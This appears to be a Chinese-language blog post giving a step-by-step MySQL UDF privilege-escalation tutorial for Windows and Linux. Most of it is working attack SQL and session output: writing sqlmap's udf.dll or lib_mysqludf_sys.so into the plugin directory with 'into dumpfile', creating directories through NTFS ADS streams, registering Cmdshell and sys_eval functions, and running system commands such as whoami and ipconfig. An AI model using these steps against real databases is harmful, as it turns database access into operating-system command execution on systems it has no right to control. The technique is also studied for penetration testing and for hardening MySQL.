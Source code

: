 ```yaml
---
layout: post
title: MySQL UDF Rights
date: 2019-9-26
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```


### 1.UDF是什么

UDF（user defined function）用户自定义函数,是MySQL的一个扩展接口，称为用户自定义函数,是用来拓展MySQL的技术手段，用户通过自定义函数来实现在MySQL中无法实现的功能。文件后缀为`.dll`,常用c语言编写。可以执行系统命令,将MySQL账号root转化为系统system权限。

### 2.windows下udf提权的条件

1. 如果MySQL的版本大于5.1，`udf.dll`文件必须放在MySQL的安装目录`lib\plugin`文件夹下
2. 如果MySQL的版本小于5.1，`udf.dll`文件在`windows server 2003`下放置在`c:\windows\system32`,在`windows server 2000` 下放在`c:\winnt\system32`目录
3. 掌握MySQL数据库账户,从拥有对MySQL有增删改查权限。如果是root用户就更好了
4. 拥有可以将`udf.dll`写入相应目录的权限

### 3.提权方法

1. 获取MySQL的安装路径。使用`show variables like '%plugins%';`
2. 获取MySQL数据库的版本`select version();`
3. sqlmap中有现在的`udf`文件。分别是32位和64位的。需要选择对应的版本否则就会报错。版本是MySQL的版本不是window的版本.除了MySQL的`udf`文件还有`postgresql`

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926170548.png)

4. postgresql 也是同样分为window和Linux

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926170629.png)

5. **导出路径**

   1. MySQL版本小于5.1

   ```txt
   C:\\Windows\system32\udf.dll
   ```

   2. MySQL版本大于5.1

   ```txt
   MySQL安装路径\lib\plugin\udf.dll
   ```

   3. 由于该目录默认不存在，需要利用创建这个目录，然后将`udf.dll`导出到该目录。

6. 创建libplugin方法：

   - 利用WebShell创建
   - 利用NTFS ADS流创建目录：

   ```sql
   select @@basedir;  找到MySQL目录
    
   select '这里填dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION';  利用NTFS ADS创建lib目录 
    
   select '这里填dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION'; 利用NTFS ADS创建plugin目录
   ```

7. 创建Cmdshell函数

   ```sql
   create function Cmdshell returns string soname 'udf.dll'; 
   ```

8. 执行命令

   ```sql
   select Cmdshell('whoami');
   ```

9. 删除函数

   ```sql
   drops function Cmdshell; 将函数删除
   ```

10. 导出的SQL语句

    ```sql
    create table a (cmd LONGBLOB);
    
    insert into a (cmd) values (hex(load_file('D:\\Program Files\\MySQL\\MySQL Server 5.0\\Lib\\Plugin\\lib_mysqludf_sys.dll'))); 
    
    SELECT unhex(cmd) FROM a INTO DUMPFILE 'c:\\windows\\system32\\udf.dll';
    
    create function sys_eval returns string soname 'udf.dll'
    
    select sys_eval('ipconfig');
    ```



### 4.Linux下的提权

**要求**

1. 在MySQL库下必须有func表，并且在‑‑skip‑grant‑tables开启的情况下，UDF会被禁止；
2. SQL具有权限，root权限
3. 导出目录可写

**获取插件路径**

```sql
mysql> show variables like "%plugin%";
+---------------+-----------------------+
| Variable_name | Value         |
+---------------+-----------------------+
| plugin_dir  | /usr/lib/mysql/plugin |
+---------------+-----------------------+
1 row in set (0.00 sec)
```



**获取udf文件**

```shell
root@kali:/pentest/sqlmap/udf/mysql# ls
linux windows
root@kali:/pentest/sqlmap/udf/mysql/linux# ls
32 64
root@kali:/pentest/sqlmap/udf/mysql/linux/64# ls
lib_mysqludf_sys.so
```

**在SQL中加载库文件**

```sql
mysql> select hex(load_file('/pentest/database/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt';
Query OK, 1 row affected (0.04 sec)
```

**写入udf库到MySQL目录**

```sql
mysql> select unhex('7F454C46020...') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
Query OK, 1 row affected (0.04 sec)
```

**加载函数执行命令**

```sql
mysql> create function sys_eval returns string soname "mysqludf.so";
Query OK, 0 rows affected (0.14 sec)
  
mysql> select sys_eval('whoami');
+--------------------+
| sys_eval('whoami') |
+--------------------+
| mysql       |
+--------------------+
1 row in set (0.04 sec)
  
mysql> select * from mysql.func;
+----------+-----+-------------+----------+
| name   | ret | dl     | type   |
+----------+-----+-------------+----------+
| sys_eval |  0 | mysqludf.so | function |
+----------+-----+-------------+----------+
1 row in set
```



### 总结

MySQL提权总的来说还是需要有条件限制的。但是在某些情况下这种提权方法往往是最有效的。



